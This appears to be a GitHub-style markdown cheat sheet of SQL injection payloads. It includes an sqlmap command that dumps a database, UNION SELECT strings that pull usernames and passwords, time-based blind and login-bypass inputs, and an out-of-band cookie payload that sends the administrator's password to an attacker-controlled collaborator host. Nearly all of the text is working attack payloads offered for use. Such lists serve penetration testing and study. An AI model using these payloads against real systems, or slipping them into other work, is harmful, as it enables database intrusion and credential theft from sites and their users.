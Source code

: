 # SQL Injection

-- o #

## Reflected SQL Injection:</h2>
```bash
sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns
Results:
Database: public
Table: users
[POC]:
https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--

# Version
## First detect numbers of columns
```html
' UNION SELECT NULL,@@version--
' UNION SELECT NULL,NULL,* FROM v$version--
' UNION SELECT banner FROM v$version--
' UNION SELECT version FROM v$instance--
' UNION SELECT version()--
```

## Blind SQL Injection:
```html
';SELECT PG_SLEEP(5)--
'||pg_sleep(10)--
```
## SQL Login
In nickname, email and password test for
```html
name'--
pass'--
'+OR+1=1--
'+OR+2=2--
'+OR+5=5--
'+OR+'E'='E'--
```


## Test cookies for https request - Blind:
```html
  TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Then for credentials.
```html
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
  ```
